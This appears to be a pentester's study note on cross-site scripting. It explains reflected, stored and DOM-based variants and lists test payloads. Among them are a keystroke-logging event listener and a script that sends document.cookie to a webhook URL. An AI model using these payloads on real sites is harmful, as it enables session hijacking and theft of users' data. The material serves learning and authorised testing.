 #XSS #JavaScript 

Executes JavaScripts in a victims browser ([HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) has more payloads for each type)

1. **Reflected** - scripts you are trying to inject comes from the current HTTP request. You send a request with the script in it, and you get a response, that script is included in the response. Can only target yourself unless the payload is in the URI and you entice a user to click on the link.
2. **Stored** - Payload is stored in a database to retrieve later. Allows attacks on other users.
3. **DOM-based** - Client side has vulnerable JavaScript that uses untrusted input instead of having a vulnerability server side.

Before you check for XSS vulnerabilities, check for HTML injection first:
- `<h1>Test</h1>`

**Reflected/Stored XSS payloads:**
- `alert(1)` - popular XSS attack, pops a window in browser
	- may need to test with `print` and `prompt` as `alert` may be filtered out
- `print()
- `prompt("hello")`
- `<script>alert(document.cookie)</script>`

We can create a function called `logKey` to create an Event Listener for keystrokes and output them in the console. Real attack would replace console with a fetch API to exfiltrate information:
- `function logKey(event){console.log(event.key)}`
- `document.addEventListener('keydown', logKey)`

**[DOM payloads](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss):**
- `<script>prompt(1)</script>`
- `<img src=x onerror="prompt(1)">`
- `<img src=x onerror="window.location.href='https://google.com'">`

Stored payloads are the same for reflected but when you reload the web page, the payload activates again as it is stored (`<script>prompt(1)</script>)
- You can check the other container (started with Firefox container extension) and reload that page. The same script will be activated as the other container since it is now stored in the web page
- `<script>alert(document.cookie)</script>`

Payload to get cookie and view it in [Webhook](https://webhook.site/#!/view/becd615c-85f0-4ae8-9b5d-13a9dd8a46f6):
- `<script>var i=new Image; i.src="<Webhook URL>/?"+document.cookie;</script>`
- cookie is visible in webhook web page
